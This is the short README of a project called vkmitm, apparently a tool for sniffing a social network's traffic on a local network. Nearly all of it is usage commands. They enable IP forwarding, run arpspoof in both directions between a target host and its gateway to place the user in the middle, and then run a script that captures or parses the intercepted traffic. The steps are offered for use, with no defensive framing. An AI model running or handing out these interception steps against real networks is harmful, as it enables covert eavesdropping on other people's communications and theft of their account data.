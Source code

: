 # Using

Tested on MacOs X, with dsniff from macports.

Start arp spoofing:

Target - 192.168.2.151
Gate - 192.168.2.1

```
$ sudo sysctl -w net.inet.ip.forwarding=1
$ sudo arpspoof -i en1 -t 192.168.2.151 192.168.2.1
$ sudo arpspoof -i en1 -t 192.168.2.1 192.168.2.151
```

Sniffing data on en1:

```
$ sudo ./sniff_vk.py -i en1
```

Parsing pcap file:
```
$ sudo ./sniff_vk.py -p test.pcap
```

# vkmitm
